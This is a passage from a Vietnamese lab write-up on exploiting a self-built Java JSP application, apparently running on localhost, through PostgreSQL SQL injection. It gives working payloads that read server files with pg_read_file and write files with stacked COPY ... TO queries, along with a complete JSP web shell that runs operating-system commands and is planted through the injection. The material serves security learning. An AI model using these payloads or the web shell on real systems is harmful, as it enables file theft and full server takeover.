            - Thử read file
                
                Thấy PATH có vẻ quen quen, giống với Document Root vì có thư mục webapps
                
                Thử read file index trong `/vnpt` trong webapps
                
                - Sử dụng payload : `-999’ UNION SELECT null,pg_read_file(’C:\PROGRA~2\APACHE~1\Tomcat9.0_Tomca\webapps\vnpt\index.jsp’,0,999999);— -`
                    
                    
                    
                - Kết quả trả về là kết quả của một số tag html và tag script xử lý chuyển hướng về đăng nhập → Đã read file thành công.
                - Giải thích : Sử dụng hàm `pg_read_file(’C:\PROGRA~2\APACHE~1\Tomcat9.0_Tomca\webapps\vnpt\index.jsp’,0,999999)` để đọc file cụ thể, với 2 tham số theo sau là 0 và 999999
                - 0 : OFFSET bắt đầu read
                - 999999 : Số bytes read
            - Thử write file
                
                Sử dụng hàm `COPY () TO` để write file vào /vnpt
                
                - Mình sẽ sử dụng `Stack-Query` để có thể thực thi nhiều câu truy vấn cùng lúc với payload như sau :
                    
                    
                    
                - Mục đích : Vừa thử kiểm tra xem có thể `Write file` được không,vừa thử xem Write File vào thư mục đó có thể `thực thi JSP` không
                - Kết quả trả về :
                    
                    
                    
                - Vậy là đã có thể Write file và thực thi được JSP
            - Upload web shell JSP
                
                Mình tham khảo nguồn web shell JSP tại đây : [Web Shell JSP](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp) và chỉnh sửa lại một chút.
                
                - `shell.jsp`
                    
                    ```java
                    <%@ page import="java.io.*, java.util.*" %>
                    <html>
                    <head>
                        <title>JSP Web Shell</title>
                    </head>
                    <body>
                        <h2>JSP Web Shell</h2>
                        <form method="GET">
                            <input type="text" name="cmd" placeholder="Enter command" size="50">
                            <input type="submit" value="Execute">
                        </form>
                        <hr>
                        <pre>
                        <%
                        String command = request.getParameter("cmd");
                        if (command != null && !command.trim().isEmpty()) {
                            try {
                                ProcessBuilder builder = new ProcessBuilder(
                                    System.getProperty("os.name").toLowerCase().contains("win") 
                                    ? new String[]{"cmd.exe", "/c", command} 
                                    : new String[]{"/bin/sh", "-c", command});
                                builder.redirectErrorStream(true);
                                Process p = builder.start();
                                
                                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                                String line;
                                while ((line = reader.readLine()) != null) {
                                    out.println(line + "<br>");
                                }
                                reader.close();
                            } catch (Exception e) {
                                out.println("Error: " + e.getMessage());
                            }
                        }
                        %>
                        </pre>
                    </body>
                    </html>
                    
                    ```
                    
                    Giải thích về web shell : 
                    
                    - Nhận vào giá trị của tham số `cmd` thông qua Http request GET. chương trình sẽ run`cmd.exe` hoặc shell `sh` trên Linux để thực thi, kèm theo `command` mà attacker gửi đi, sau đó in ra kết quả trả về của câu command.
                
                Như phần trên trong phần thử write file, mình sẽ sử dụng hàm COPY ( ) TO để write shell tại `/vnpt`
                
                - Payload
                    
                    ```
                    -999'; COPY (SELECT '<%@ page import="java.io.*, java.util.*" %>
                    <html>
                    <head>
                        <title>JSP Web Shell</title>
                    </head>
                    <body>
                        <h2>JSP Web Shell</h2>
                        <form method="GET">
                            <input type="text" name="cmd" placeholder="Enter command" size="50">
                            <input type="submit" value="Execute">
                        </form>
                        <hr>
                        <pre>
                        <%
                        String command = request.getParameter("cmd");
                        if (command != null && !command.trim().isEmpty()) {
                            try {
                                ProcessBuilder builder = new ProcessBuilder(
                                    System.getProperty("os.name").toLowerCase().contains("win") 
                                    ? new String[]{"cmd.exe", "/c", command} 
                                    : new String[]{"/bin/sh", "-c", command});
                                builder.redirectErrorStream(true);
                                Process p = builder.start();
                                
                                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                                String line;
                                while ((line = reader.readLine()) != null) {
                                    out.println(line + "<br>");
                                }
                                reader.close();
                            } catch (Exception e) {
                                out.println("Error: " + e.getMessage());
                            }
                        }
                        %>
                        </pre>
                    </body>
                    </html>
                    ') TO 'C:\PROGRA~2\APACHE~1\Tomcat9.0_Tomca\webapps\vnpt\hehe.jsp';-- -
                    ```
                    
                
                Truy cập vào đường dẫn [`http://localhost:8082/vnpt/view/hehe.jsp`](http://localhost:8082/vnpt/view/hehe.jsp) để kiểm tra upload shell thành công hay không 
                
                Thử nhập command `dir` để list directory xem:
                
                
                
                → Có thể upload shell thông qua SQLi và chiếm quyền điều khiển server bằng từng câu lệnh(command) riêng lẻ.
                

## IV/ Conclusion:

Trong bài tập này, mình đọc hiểu được Code Java, các truy vấn database psql. 

Mình có nhờ sự trợ giúp của GPT trong việc xây dựng ứng dụng web Java JSP. 

Phía trên là tổng hợp các dạng lỗi SQLi cơ bản, Sqli to RCE.
